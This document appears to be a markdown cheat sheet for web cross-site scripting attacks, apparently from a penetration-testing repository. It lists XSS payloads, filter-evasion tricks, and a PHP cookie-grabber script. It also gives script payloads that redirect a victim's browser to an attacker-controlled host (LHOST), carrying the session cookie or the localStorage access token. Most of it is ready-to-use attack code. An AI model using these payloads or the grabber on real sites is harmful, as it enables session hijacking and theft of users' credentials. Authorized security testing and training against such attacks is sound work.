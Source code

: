 # Web XSS

- URL (path?query#fragment)
- any input fields

## Payloads

```
"><img src onerror=alert(1)>
"autofocus onfocus=alert(1)//
</script><script>alert(1)</script>
'-alert(1)-'
\'-alert(1)//
javascript:alert(1)
```

## Alterations
```
" for ' and vice versa according to where injection lands
alert(1) for (confirm)(1) or confirm`1`
// for <!--
spaces for / or %0A, %0C or %0D.
```

## Grabber

```
cat <<'EOF' | tee grabber.php
<?php
$cookie = $_GET['c'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' .$cookie.'\r\n');
fclose($fp);
?>
EOF
```
```
cat << "DOC" 
<script>document.location='http://${__LHOST}/XSS/grabber.php?c='+document.cookie</script>
<script>document.location='http://${__LHOST}/XSS/grabber.php?c='+localStorage.getItem('access_token')</script>
```
